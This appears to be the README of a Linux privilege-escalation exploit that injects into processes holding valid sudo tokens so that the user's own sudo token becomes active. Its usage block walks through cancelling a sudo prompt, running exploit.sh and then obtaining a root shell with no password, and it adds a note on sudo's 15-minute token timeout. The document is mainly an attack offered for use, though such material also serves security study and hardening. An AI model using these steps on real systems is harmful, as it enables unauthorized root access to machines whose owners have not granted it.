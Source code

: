 # [Linux] Privilege Escalation by injecting process posseding sudo tokens.

#### Inject process that have valid sudo token and activate our own sudo token.

## How to use
```sh
$ sudo whatever
[sudo] password for user: (Send <ctrl>+c since you don't have the password). // this creates an invalid sudo tokens
$ ./exploit.sh // this activates our sudo token
.... wait 3 seconds
$ sudo -i # no password required :)
# uid=0(root) gid=0(root) groups=0(root)
```
The default password timeout is 15 minutes. So if you use sudo twice in 15 minutes (900 seconds), you will not be asked to type the user’s password again.
